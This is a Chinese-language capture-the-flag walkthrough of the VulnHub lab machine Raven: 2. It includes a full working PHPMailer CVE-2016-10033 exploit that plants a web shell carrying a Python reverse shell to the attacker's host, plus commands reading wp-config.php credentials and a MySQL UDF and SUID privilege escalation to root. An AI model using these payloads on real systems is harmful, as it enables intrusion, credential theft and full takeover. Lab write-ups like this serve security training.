

# Raven: 2

> 靶机文档：[Raven: 2](https://www.vulnhub.com/entry/raven-2,269/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/raven/Raven2.ova)


### 信息收集

靶机MAC地址：00:0C:29:15:7F:17

#### 主机发现

```bash
sudo nmap -sn 192.168.8.0/24
```


```bash
sudo arp-scan -l  
```


#### 端口扫描

```bash
sudo nmap --min-rate 10000 -p- 192.168.8.21
 
 # --min-rate 最小速度 
 # -p- 全端口扫描  1-65535
```


```bash
 sudo nmap -sU  --min-rate 10000 -p- 192.168.8.21
```


```bash
sudo nmap -sT -sV -O -p 22,80,111,42333,38970  192.168.8.21

# -sT TCP扫描
# -sV 扫描版本信息
# -O 枚举操作系统信息
```


```bash
sudo nmap --script=vuln  -p 22,80,111,42333,38970  192.168.8.21


 # 漏洞扫描
```


发现有`wordpress`目录，说明是`wordpress`的一个cms


访问`vendor`




上网查得知这是php发送邮件类，phpMailer，版本5.2.16

#### 目录扫描

```bash
dirsearch -u 192.168.8.21
```


#### 用户枚举

 枚举 WordPress 站点中注册过的用户名，来制作用户名字典。

```bash
wpscan --url http://192.168.8.21/wordpress/ -e u 
```


枚举出两个用户`steven   michael`

---

cewl密码字典制作

```bash
cewl http://192.168.8.21/wordpress/ -w password.txt
```


```bash
wpscan  --url http://192.168.8.21/wordpress/ -U user.txt -P password.txt # 调用相关的字典文件对网站进行爆破。
```

wpscan爆破失败

尝试九头蛇爆破SSH，也失败了

### 漏洞发现

- https://www.exploit-db.com/exploits/40974

  

```bash
searchsploit phpmailer 
```


可以看出该网站 phpmailer 5.2.16存在远程代码执行漏洞

### 漏洞利用

找出绝对 路径

```bash
searchsploit -m 40974.py
```


修改exp脚本


```bash
#!/usr/bin/python
# -*- coding: utf-8 -*-

"""
# Exploit Title: PHPMailer Exploit v1.0
# Date: 29/12/2016
# Exploit Author: Daniel aka anarc0der
# Version: PHPMailer < 5.2.18
# Tested on: Arch Linux
# CVE : CVE 2016-10033

Description:
Exploiting PHPMail with back connection (reverse shell) from the target

Usage:
1 - Download docker vulnerable enviroment at: https://github.com/opsxcq/exploit-CVE-2016-10033
2 - Config your IP for reverse shell on payload variable
4 - Open nc listener in one terminal: $ nc -lnvp <your ip>
3 - Open other terminal and run the exploit: python3 anarcoder.py

Video PoC: https://www.youtube.com/watch?v=DXeZxKr-qsU

Full Advisory:
https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
"""

from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.8.21/contact.php'
backdoor = '/shell.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.8.8\\\',6868));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

执行exp

```python
python 40974.py
```


kali监听6868端口

```bash
nc -lvp 6868
```

浏览器访问生成的后门文件，拿到shell


使用python拿到交互式shell

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

查看`wordpress`的配置文件  `/var/www/html/wordpress/wp-config.php`

发现数据库用户`root`，密码`R@v3nSecurity`

先看一下数据库的版本`select version();`

得出版本为：`5.5.60-0+deb8u1`

#### UDF脚本

利用脚本

- https://www.exploit-db.com/exploits/1518


```
searchsploit -m 1518
cp /usr/share/exploitdb/exploits/linux/local/1518.c ./1518.c
gcc -g -c 1518.c
gcc -g -shared -o 1518.so 1518.o -lc
```

将1518.so 文件上传到/tmp 目录下


#### MySQL提权

```sql
create database saury;
use saury;
create table saury(line blob);
insert into saury values(load_file('/tmp/1518.so'));
select * from saury into dumpfile '/usr/lib/mysql/plugin/udf.so';
create function do_system returns integer soname 'udf.so';
select do_system('chmod u+s /usr/bin/find');
```


此时，/usr/bin/find 就具备了SUID 权限

#### SUID提权

```bash
find ./ -exec '/bin/sh' \;
```

